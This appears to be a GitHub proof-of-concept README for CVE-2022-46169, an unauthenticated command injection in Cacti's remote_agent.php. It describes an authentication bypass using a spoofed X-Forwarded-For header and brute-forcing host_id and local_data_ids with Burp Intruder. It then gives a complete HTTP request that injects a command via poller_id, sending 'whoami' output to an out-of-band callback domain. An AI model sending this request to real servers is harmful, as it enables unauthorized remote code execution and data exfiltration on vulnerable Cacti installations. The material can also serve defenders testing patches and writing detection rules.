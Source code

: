 # CVE-2022-46169

CVE-2022-46169 Cacti remote_agent.php Unauthenticated Command Injection.

## Auth Bypass

Add `X-Forwarded-For` header to bypass authentication, note that its value is not a fixed value.

![image](https://user-images.githubusercontent.com/40891670/206341900-5b4b4a59-92c5-4d19-9913-e97c1aa44180.png)

![image](https://user-images.githubusercontent.com/40891670/206342934-3e2f99e3-8ae6-406c-b28b-38bc6fd6c21c.png)

## Brute Force

Use Burp Intruder to fuzz test the values of `host_id` and `local_data_ids`.

![image](https://user-images.githubusercontent.com/40891670/206341202-253e43ec-da5b-43d1-8d3a-2e36c9041605.png)

![image](https://user-images.githubusercontent.com/40891670/206341491-aa41526b-12f8-4e97-999b-90f14a1d301b.png)

## RCE

The point of command injection is the `poller_id` parameter.

```http
GET /cacti/remote_agent.php?action=polldata&poller_id=;ping%20-c%202%20`whoami`.ccsy8s32vtc0000x5nagg8rkyboyyyyyc.oast.fun&host_id=2&local_data_ids[]=6 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; U; Linux armv6l; rv 1.8.1.5pre) Gecko/20070619 Minimo/0.020
Accept-Charset: utf-8
Accept-Encoding: gzip, deflate
Connection: close
X-Forwarded-For: 127.0.0.1


```

![image](https://user-images.githubusercontent.com/40891670/206337930-d1c2c044-b7ea-47ff-a740-9f8320594816.png)


## Reference

- https://github.com/Cacti/cacti/security/advisories/GHSA-6p93-p743-35gf
